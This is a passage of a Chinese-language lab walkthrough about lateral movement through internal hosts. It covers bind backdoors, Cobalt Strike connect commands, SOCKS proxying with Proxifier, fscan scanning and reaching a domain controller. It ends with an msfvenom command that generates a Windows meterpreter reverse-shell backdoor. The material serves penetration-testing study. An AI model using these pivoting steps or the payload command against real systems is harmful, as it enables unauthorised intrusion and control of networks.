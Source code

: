 ![1732347798808](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942016.png)

运行4444.exe后，发现sql机主动开了一个4444端口（等待别人来连接）：

![1732347820581](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942017.png)

然后用 cs控制Web主机连接sql机：

![1732347931397](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942018.png)

sql主动找的web，间接找的kali    ------------ 这就是正向

![1732347999544](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942019.png)



### 演示：

kali （攻击机）刚开始只能与web主机进行通信，然后上传后门到web主机上线操作，控制得到权限后，因为kali 不能与sql主机进行通信，但是web主机可以与sql进行通信（上图），所有可以kali通过控制web主机（connect 192.168.2.22 4444）连接sql主机。

![1732287156916](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942020.png)

在sql主机上也有一个后门点击会打开自己的4444端口等待连接

  file主机开了一个ftp服务，还是改proxifier，通过ftp拿到file主机权限（这里过程粗略跳过），

连接file主机一样过程：socks代理----proxifier代理（这里注意：配置的服务器还是c2（kali）,更改的是端口和代理规则的目标主机ip--192.168.3.*-----fscan扫-------上正向后门）后面一样

连接DC：

还是先建立socks代理（开一个节点）                                      这里遮住的是192.168.3.22（file主机）

![1732287986076](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942021.png)

接下来配置proxifier

1:	

![1732288157910](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942022.png)

2:

![1732288132353](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942023.png)



下来还是用fscan进行扫描。后面一样。

 

### msf：

linux中的Proxifie是Prixychains。

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.139.128 LPORT=3333 -f exe -o msf.exe  生成一个反向连接后门

